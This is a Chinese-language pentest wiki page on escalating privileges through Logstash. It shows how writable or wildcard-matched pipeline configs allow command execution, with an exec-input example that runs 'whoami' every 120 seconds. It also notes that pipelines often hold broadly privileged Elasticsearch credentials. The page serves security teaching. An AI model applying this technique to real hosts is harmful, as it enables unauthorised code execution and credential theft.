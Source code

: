 {{#include ../../banners/hacktricks-training.md}}

## Logstash

Logstash 用于 **收集、转换和分发日志** 通过一个称为 **管道** 的系统。这些管道由 **输入**、**过滤** 和 **输出** 阶段组成。当 Logstash 在被攻陷的机器上运行时，会出现一个有趣的方面。

### Pipeline Configuration

管道在文件 **/etc/logstash/pipelines.yml** 中配置，该文件列出了管道配置的位置：
```yaml
# Define your pipelines here. Multiple pipelines can be defined.
# For details on multiple pipelines, refer to the documentation:
# https://www.elastic.co/guide/en/logstash/current/multiple-pipelines.html

- pipeline.id: main
path.config: "/etc/logstash/conf.d/*.conf"
- pipeline.id: example
path.config: "/usr/share/logstash/pipeline/1*.conf"
pipeline.workers: 6
```
该文件揭示了包含管道配置的 **.conf** 文件的位置。当使用 **Elasticsearch output module** 时，**pipelines** 通常包含 **Elasticsearch credentials**，这些凭据由于 Logstash 需要将数据写入 Elasticsearch，通常具有广泛的权限。配置路径中的通配符允许 Logstash 执行指定目录中所有匹配的管道。

### 通过可写管道进行权限提升

要尝试权限提升，首先识别 Logstash 服务运行的用户，通常是 **logstash** 用户。确保满足 **以下** 条件之一：

- 拥有对管道 **.conf** 文件的 **写访问** **或**
- **/etc/logstash/pipelines.yml** 文件使用了通配符，并且您可以写入目标文件夹

此外，必须满足 **以下** 条件之一：

- 能够重启 Logstash 服务 **或**
- **/etc/logstash/logstash.yml** 文件设置了 **config.reload.automatic: true**

鉴于配置中存在通配符，创建一个与该通配符匹配的文件允许执行命令。例如：
```bash
input {
exec {
command => "whoami"
interval => 120
}
}

output {
file {
path => "/tmp/output.log"
codec => rubydebug
}
}
```
这里，**interval** 决定了执行频率（以秒为单位）。在给定的示例中，**whoami** 命令每 120 秒运行一次，其输出被定向到 **/tmp/output.log**。

在 **/etc/logstash/logstash.yml** 中设置 **config.reload.automatic: true**，Logstash 将自动检测并应用新的或修改过的管道配置，而无需重启。如果没有通配符，仍然可以对现有配置进行修改，但建议谨慎操作以避免中断。

## References

{{#include ../../banners/hacktricks-training.md}}
